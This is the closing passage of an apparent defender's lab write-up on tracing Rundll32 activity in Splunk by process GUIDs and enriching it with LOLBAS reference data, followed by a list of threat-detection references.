The network investigation also reinforced the importance of choosing the right correlation field. My first query grouped everything by `Image`, which made separate Rundll32 processes look like one combined sequence. Rechecking the events with `ProcessGuid` and `ParentProcessGuid` showed the real chain: the `evil.dll,DllMain` process spawned a second Rundll32 process, and that child made the connection to the attacker system.

Finally, importing LOLBAS into Splunk showed me a practical way to put reference data next to live telemetry. Instead of leaving Splunk to look up a binary separately, I could select the LOLBin and see both the activity from my lab and the LOLBAS information in one place.

## References

- [MITRE ATT&CK: T1218.011 - Rundll32](https://attack.mitre.org/techniques/T1218/011/)
- [LOLBAS Project](https://lolbas-project.github.io/)
- [LOLBAS API](https://lolbas-project.github.io/api/)
- [LOLBAS GitHub Repository](https://github.com/LOLBAS-Project/LOLBAS)
- [Red Canary - Rundll32](https://redcanary.com/threat-detection-report/techniques/rundll32/)
- [The DFIR Report - Cobalt Strike: A Defender's Guide](https://thedfirreport.com/2021/08/29/cobalt-strike-a-defenders-guide/)
- [Cybereason - Rundll32: The Infamous Proxy for Executing Malicious Code](https://www.cybereason.com/blog/rundll32-the-infamous-proxy-for-executing-malicious-code)
- [CIS - Living Off the Land Threats](https://www.cisecurity.org/insights/blog/living-off-the-land-threats-looming-from-within)
